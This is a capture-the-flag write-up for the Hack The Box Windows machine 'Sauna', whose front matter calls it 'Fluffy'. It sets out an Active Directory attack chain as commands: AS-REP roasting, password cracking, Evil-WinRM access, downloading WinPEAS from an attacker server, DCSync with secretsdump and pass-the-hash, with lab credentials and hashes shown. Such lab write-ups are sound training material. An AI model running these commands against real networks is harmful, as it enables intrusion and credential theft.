 ```yaml
---
description: Here are the write-ups for HTB machine, Fluffy.
icon: windows
---
```


# Sauna

**We're provided target ip address only**

## **Scanning & Enumeration**

I begin an active scanning on target ip to find open ports. I used multiple tool to get more accurate result. Based on scanning result, we saw many services running on target machine, including web services (http), remote procedure call (RPC), Kerberos, LDAP and so on which useful in the future.

```
rustscan -a $target-ip
```

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

```
nmap -sC -sV -p- -Pn $target-ip
```

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

### Services Enumeration

Nothing much here. SMB service is not really useful, signing enabled and required. I straight to website to enumerate possible subdomain, path, and vulnerability.

### Users Reconnaissance

After dive deep into target website, I find out the list of staff with probability high privileges to the system. I decided to use this information to craft a wordlist of usernames and then try it on target open services.

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Users Enumeration

I crafted wordlist of usernames with commonly used pattern using [username-anarchy](https://github.com/urbanadventurer/username-anarchy) script based on names I got from the website. Then, I compiled these wordlists into a giant wordlist. I utilized NetExec(NXC) tool to test vuln ASREP-Roast on each usernames. Luckily we found a domain user (`fsmith`) that is vulnerable, we got the NTLM hashed password of the domain user.

```
# Generate wordlists using harvested names
/username-anarchy Fergus Smith
/username-anarchy Hugo Bear
/username-anarchy Steven Kerb
/username-anarchy Shaun Coins
/username-anarchy Bowie Taylor
/username-anarchy Sophie Driver
# Then you have to manually combine this wordlists
# Testing ASREP-Roast on each usernames using NXC
netexec ldap $dc-ip -u username_wordlist -p '' --asreproast asreproast_output
```

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### Password Cracking

Based on NTLM hash we got from NXC. I stored it in the file called `fsmith_passhash`. We can crack this hash using JohnTheRipper. Finally, we cracked the password (`Thestrokes23`).

```
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt fsmith_passhash
```

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Gaining Access

Once I have the credential of one of the domain user.

`fsmith:Thestrokes23`&#x20;

I can leverage this credential on other services, the most prominent service to try on this target is remote access to the target since the **Microsoft Windows RPC** port is open. We can use `Evil-WinRM` to get remote access on target machine.

```
evil-winrm -i $target-ip -u fsmith -p 'Thestrokes23'
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Luckily, We got the flag for user.

## Privilege Escalation

### Privilege Escalation Enumeration

Now, I want to escalate the privilege. I utilized, [WinPEAS ](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)to do enumeration on target system. I looked for files that might contain credentials, misconfiguration, or vulnerabilities that I possibly abuse.

First, I downloaded WinPEAS via **python http.server** from my machine since my machine in the same network as target machine.

Second, I ran the script on target machine.

```
# Open HTTP Service on Attacker Machine (Ensure the scr)
python3 -m http.server 8000

# Download WinPEAS on Target Machine && Run WinPEAS script
Invoke-WebRequest -Uri 'http:/$attacker-ip:8000/winPeas.exe' -OutFile 'WinPeas.exe'
ls
/WinPeas.exe domain
```

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

After **A LONGGG LONGGG** review of WinPEAS Result, I discovered domain service account cred.

`svc_loanmanager:Moneymakestheworldgoround!`&#x20;

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

We can utilized this cred to gain more information.

### Data Collection via Bloodhound

Leveraging from domain service account, I dump the AD information such as AD objects, sessions, group memberships and trusts, ACLs. This data useful to model the target environment and determine attack chain.

I utilized Bloodhound via NXC

```
nxc ldap $dc-ip -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' --bloodhound -c All --dns-server $dc-ip
```

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Once the command is executed. A zip file is created containing JSON files of OUs, groups, domains and etc.

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

With this JSON files, I can determine path to gain higher privilege. I used Bloodhound to ingest data and graph the path. From what have I analyze on relation in and out from SVC\_LOANMGR. I discovered a misconfiguration and possible exploit via DCSync using DCSync Attack.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

> _What Are DCSync Attacks?_
>
> _A DCSync attack uses commands in Microsoft Directory Replication Service Remote Protocol (MS-DRSR) to pretend to be a domain controller (DC) in order to get user credentials from another DC._\
> \
> &#xNAN;_**DCSync Attack** requires a compromised user account with domain replication privileges. Once that is established, one can find a domain controller, tell it to replicate, and get password hashes from its subsequent response._

### Privilege Escalation Exploit

I used impacket-secretdump to dump domain users and password hashes. As a result, I found Administrator username and the password hash.

```
impacket-secretsdump 'egotistical-bank/svc_loanmgr':'Moneymakestheworldgoround!'@$dc-ip
```

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Gain Access

Once I have the hash of administrator. I used [Pass-The-Hash](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack) technique to remote access using impacket-wmiexec on victim machine.

```
impacket-wmiexec -hashes 'aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e' 'egotistical-bank/administrator@$target-ip'
```

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Admin Data Discovery and Collection

Finally, I able to login as admin. Now, I just have to locate the file of the flag, which located at `C:\Users\Administrator\Desktop\root.txt` .

```
cd Administrator
dir
cd Desktop
dir
type root.txt
```

<figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
